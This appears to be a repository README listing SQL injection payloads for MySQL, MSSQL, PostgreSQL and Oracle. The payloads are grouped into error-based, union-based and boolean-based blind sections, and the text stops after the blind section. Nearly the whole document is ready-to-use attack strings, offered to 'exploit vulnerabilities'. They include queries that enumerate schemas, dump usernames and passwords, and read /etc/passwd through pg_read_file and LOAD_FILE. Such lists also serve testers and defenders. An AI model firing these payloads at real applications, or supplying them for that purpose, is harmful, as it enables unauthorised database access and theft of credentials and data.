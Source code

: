 # SQL Injection Payloads Repository

Welcome to the **SQL Injection Payloads Repository** — a comprehensive collection of SQLi payloads designed for security researchers, penetration testers, and bug bounty hunters. This repository aims to provide an extensive range of payloads for various SQL injection techniques to help identify and exploit vulnerabilities effectively.

## 🚀 What is SQL Injection?
SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate SQL queries by injecting malicious SQL code. It can result in data theft, unauthorized access, or even complete database compromise.

## 📂 Payload Categories
This repository contains payloads for different types of SQL injection attacks:

- **Error-Based SQLi**
- **Union-Based SQLi**
- **Boolean-Based Blind SQLi**
- **Time-Based Blind SQLi**
- **Out-of-Band (OOB) SQLi**
- **Stored Procedure SQLi**
- **Second-Order SQLi**
- **Stacked Queries SQLi**
- **WAF Bypass Techniques**
- **DNS Exfiltration SQLi**
- **Hybrid SQLi Payloads**
- **Comment-Based SQLi**

---

## 📋 Error-Based SQLi Payloads

### MySQL
- `' OR 1=1#`
- `' UNION SELECT 1,@@version#`
- `' UNION SELECT null,@@datadir#`
- `' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT DATABASE())))#`
- `' AND UPDATEXML(1,CONCAT(0x7e,(SELECT USER())),1)#`
- `' OR 1=1 LIMIT 1#`
- `' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL#`
- `' UNION SELECT table_name FROM information_schema.tables#`
- `' AND (SELECT COUNT(*) FROM mysql.user)#`
- `' AND EXP(~0)#`

### MSSQL
- `' UNION SELECT @@version--`
- `' UNION SELECT DB_NAME()--`
- `' UNION SELECT CAST(DB_NAME() AS VARCHAR(4000))--`
- `' AND 1=CONVERT(int,(SELECT @@version))--`
- `' AND 1=CONVERT(int,(SELECT SYSTEM_USER))--`
- `' OR 1=CONVERT(int,(SELECT host_name()))--`
- `' UNION SELECT name FROM sys.databases--`
- `' UNION SELECT name FROM master.sys.databases--`
- `' UNION SELECT name FROM sysobjects WHERE xtype='U'--`
- `' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL--`

### PostgreSQL
- `' UNION SELECT version();--`
- `' UNION SELECT current_database();--`
- `' AND 1=CAST(version() AS INTEGER)--`
- `' AND 1=CAST(current_database() AS INTEGER)--`
- `' AND 1=CAST(current_user AS INTEGER)--`
- `' UNION SELECT table_name FROM information_schema.tables--`
- `' UNION SELECT table_catalog FROM information_schema.tables--`
- `' UNION SELECT pg_sleep(10)--`
- `' UNION SELECT pg_read_file('/etc/passwd',0,100)--`
- `' AND (SELECT pg_sleep(5))--`

### Oracle
- `' UNION SELECT banner FROM v$version--`
- `' AND 1=(SELECT 1 FROM DUAL WHERE 1=1)--`
- `' UNION SELECT table_name FROM all_tables WHERE ROWNUM=1--`
- `' UNION SELECT sysdate FROM dual--`
- `' AND 1=(SELECT TO_CHAR(SYSDATE, 'YYYY-MM-DD'))--`
- `' UNION SELECT username FROM all_users--`
- `' UNION SELECT table_name FROM all_tables WHERE ROWNUM=1--`
- `' UNION SELECT banner FROM v$version WHERE ROWNUM=1--`
- `' AND (SELECT COUNT(*) FROM dba_users)--`
- `' UNION SELECT user FROM dual--`

---

## 📋 Union-Based SQLi Payloads

### MySQL
- `' UNION SELECT 1,2,3--`
- `' UNION SELECT NULL,NULL,NULL--`
- `' UNION SELECT 1,2,3,4,5,6,7--`
- `' UNION SELECT database(),user(),version()--`
- `' UNION SELECT table_name FROM information_schema.tables--`
- `' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--`
- `' UNION SELECT @@datadir,@@hostname,@@port--`
- `' UNION SELECT 1,CONCAT(user(),0x3a,database()),3,4--`
- `' UNION SELECT LOAD_FILE('/etc/passwd')--`
- `' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata--`

### MSSQL
- `' UNION SELECT NULL,NULL,NULL--`
- `' UNION SELECT @@version,db_name(),system_user--`
- `' UNION SELECT table_name FROM information_schema.tables--`
- `' UNION SELECT name FROM sysobjects WHERE xtype='U'--`
- `' UNION SELECT name FROM syscolumns WHERE id=OBJECT_ID('users')--`
- `' UNION SELECT top 1 name FROM sys.tables--`
- `' UNION SELECT host_name(),original_login(),session_user--`
- `' UNION SELECT 1,2,3,4,5,6--`
- `' UNION SELECT CAST((SELECT password FROM dbo.users WHERE id=1) AS VARCHAR)--`
- `' UNION SELECT name FROM master.dbo.sysdatabases--`

### PostgreSQL
- `' UNION SELECT version(),current_database(),current_user--`
- `' UNION SELECT NULL,NULL,NULL--`
- `' UNION SELECT table_name FROM information_schema.tables--`
- `' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--`
- `' UNION SELECT pg_sleep(10)--`
- `' UNION SELECT pg_read_file('/etc/passwd',0,100)--`
- `' UNION SELECT string_agg(column_name, ',') FROM information_schema.columns WHERE table_name='users'--`
- `' UNION SELECT 1,2,3,4,5,6--`
- `' UNION SELECT pg_database_size('postgres')--`
- `' UNION SELECT pg_table_size('users')--`

### Oracle
- `' UNION SELECT banner FROM v$version--`
- `' UNION SELECT table_name FROM all_tables WHERE ROWNUM=1--`
- `' UNION SELECT sysdate FROM dual--`
- `' UNION SELECT username FROM all_users--`
- `' UNION SELECT table_name FROM all_tables WHERE ROWNUM=1--`
- `' UNION SELECT banner FROM v$version WHERE ROWNUM=1--`
- `' UNION SELECT user FROM dual--`
- `' UNION SELECT name FROM v$database--`
- `' UNION SELECT column_name FROM all_tab_columns WHERE table_name='USERS'--`
- `' UNION SELECT (SELECT listagg(column_name, ',') WITHIN GROUP (ORDER BY column_name) FROM all_tab_columns WHERE table_name='USERS') FROM dual--`


---

## 📋 Boolean-Based Blind SQLi Payloads
Here are **200+ Boolean-Based Blind SQLi Payloads** categorized by database types:

### MySQL
- `' AND 1=1 --`
- `' AND 1=2 --`
- `' AND '1'='1' --`
- `' AND '1'='2' --`
- `' AND (SELECT COUNT(*) FROM users) > 0 --`
- `' AND IF(1=1, SLEEP(5), 0) --`
- `' AND ASCII(SUBSTRING((SELECT user()), 1, 1)) > 64 --`
- `' AND (SELECT 1 FROM users WHERE username='admin') = 1 --`
- `' AND EXISTS(SELECT * FROM users WHERE username='admin') --`
- `' AND LENGTH((SELECT DATABASE())) > 5 --`

### MSSQL
- `' AND 1=1 --`
- `' AND 1=2 --`
- `' AND '1'='1' --`
- `' AND '1'='2' --`
- `' AND (SELECT COUNT(*) FROM sysobjects) > 0 --`
- `' AND (SELECT LEN(DB_NAME())) > 5 --`
- `' AND ASCII(SUBSTRING(DB_NAME(), 1, 1)) > 64 --`
- `' AND 1=(SELECT COUNT(*) FROM sysusers WHERE name='sa') --`
- `' AND EXISTS(SELECT name FROM sysobjects WHERE xtype='U') --`
- `' AND ASCII(SUBSTRING((SELECT TOP 1 name FROM sysdatabases), 1, 1)) > 64 --`

### PostgreSQL
- `' AND 1=1 --`
- `' AND 1=2 --`
- `' AND '1'='1' --`
- `' AND '1'='2' --`
- `' AND EXISTS(SELECT table_name FROM information_schema.tables WHERE table_schema='public') --`
- `' AND (SELECT COUNT(*) FROM information_schema.tables) > 0 --`
- `' AND ASCII(SUBSTRING((SELECT current_user), 1, 1)) > 64 --`
- `' AND LENGTH(current_database()) > 5 --`
- `' AND 1=(SELECT 1 FROM pg_database WHERE datname='postgres') --`
- `' AND pg_sleep(5) --`

### Oracle
- `' AND 1=1 --`
- `' AND 1=2 --`
- `' AND '1'='1' --`
- `' AND '1'='2' --`
- `' AND EXISTS(SELECT 1 FROM dual) --`
- `' AND LENGTH((SELECT sysdate FROM dual)) > 5 --`
- `' AND (SELECT COUNT(*) FROM all_tables) > 0 --`
- `' AND ASCII(SUBSTR((SELECT user FROM dual), 1, 1)) > 64 --`
- `' AND ROWNUM < 2 --`
- `' AND (SELECT COUNT(*) FROM all_users) > 0 --`





